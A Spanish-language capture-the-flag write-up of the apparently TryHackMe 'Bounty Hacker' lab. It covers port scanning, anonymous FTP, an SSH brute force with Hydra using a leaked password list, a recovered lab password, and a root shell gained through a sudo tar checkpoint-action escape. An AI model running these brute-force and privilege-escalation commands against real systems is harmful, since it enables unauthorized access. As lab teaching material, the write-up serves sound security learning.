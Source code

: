 # Bounty Hacker 
---

## 1. Fase de reconocimiento

 `nmap -Pn -sS -sV -sC -T4 -vv 10.10.149.146`

 ***Resultado:***
| PORT |    STATE | SERVICE |       REASON       |  VERSION |
|------|----------|---------|--------------------|----------|
|20/tcp|closed ftp-data |        reset ttl 63 |
|21/tcp|    open  | ftp  |           syn-ack ttl 63 | vsftpd 3.0.5 | 
|22/tcp|   open  | ssh   |          syn-ack ttl 63  | OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0) |
|80/tcp|    open  | http  |          syn-ack ttl 63 | Apache httpd 2.4.41 ((Ubuntu)) |
---
Puerto 80 abierto, significa que una pagina web esta corriendo. 
---
## 2. Fase de enumeracion activa 
Utilizaremos Gobuster para la busqueda de directorios ocultos.
|directorio |	estatus |	tamaño |	redireccion |
|-----------|---------|--------|-------------|
|/.hta |                (Status: 403) | [Size: 277] |
|/.htaccess |           (Status: 403) | [Size: 277] |
|/.htpasswd |           (Status: 403) | [Size: 277] |
|/images |              (Status: 301) | [Size: 313] | [--> http://10.10.231.44/images/] |
|/index.html |          (Status: 200) | [Size: 969] |
|/javascript |          (Status: 301) | [Size: 317] | [--> http://10.10.231.44/javascript/] |
|/server-status |       (Status: 403) | [Size: 277] |
---
#### Luego de revisar manualmente cada dirección descubierta (como /index.html, /images/ y /javascript/). No se encontraron nuevos elementos relevantes. Dado que la enumeración en el puerto 80 no arrojó pistas útiles, el siguiente enfoque será apuntar al puerto 21 (FTP), identificado previamente con Nmap como un servicio vsftpd 3.0.5, para intentar enumerar y explotar posibles vulnerabilidades.
---
## Enumeración Activa (Continuación)
Nos conectamos al servicio FTP utilizando el comando `ftp 10.10.231.44` y realizamos un inicio de sesión (login) con el usuario **anonymous**. Luego, listamos los archivos disponibles con el comando `ls -la`.
Archivos encontrados
Vemos los siguientes archivos:

- -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
- -rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt

#### Descarga de archivos
Descargamos los archivos utilizando el comando `get <archivo>` para cada uno (por ejemplo, get locks.txt y get task.txt).
---
### Revisión de los archivos descargados
Analizamos el contenido de los archivos descargados con los siguientes comandos:

- cat locks.txt
- cat task.txt

Contenido de los archivos

- locks.txt: Contiene un listado de contraseñas. Esto nos permite utilizarlos como base para un ataque de fuerza bruta. Se puede emplear Hydra con el siguiente comando:
`hydra -L locks.txt -p locks.txt ssh://<ip>`
---
**task.txt: Encontramos algo interesante. Su contenido es:**

`cat task.txt`

`Protect Vicious.`

`Plan for Red Eye pickup on the moon.`

`-lin`

---
#### Encontramos un usuario lin
Basándonos en el archivo task.txt, identificamos un usuario potencial llamado lin. Ahora utilizaremos Hydra para intentar crackear la contraseña de este usuario en el servicio SSH con el siguiente comando:
`hydra -l lin -P locks.txt -t 4 10.10.231.44 ssh`

Conseguimos la contraseña: 
|Usuario | Contraseña |
|--------|------------|
|Lin | RedDr4gonSynd1cat3 |

---
### Acceso vía SSH
Nos conectamos al servicio SSH utilizando las credenciales obtenidas (lin:RedDr4gonSynd1cat3) con el siguiente comando:
`ssh lin@10.10.231.44`
Una vez dentro, ejecutamos ls y observamos la carpeta user.txt. Al inspeccionarla, encontramos la primera flag.

---
# Escalamiento de privilegios
Para identificar los permisos disponibles, utilizamos el comando `sudo -l`. Esto reveló que tenemos permisos de root para el binario **/bin/tar**.
Buscamos en GTFOBins (a través de un navegador) una técnica para escalar privilegios utilizando **/bin/tar**. Encontramos que podemos obtener una shell de root con el siguiente comando:
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

---
#### Obtención de privilegios root
- Con este comando, conseguimos privilegios de root. Para localizar el archivo root.txt, ejecutamos:
`find / -name "root.txt" 2>/dev/null`

- El comando devuelve la ruta /root/root.txt. Usamos cat para extraer la segunda flag:
`cat /root/root.txt`

(～￣▽￣)～
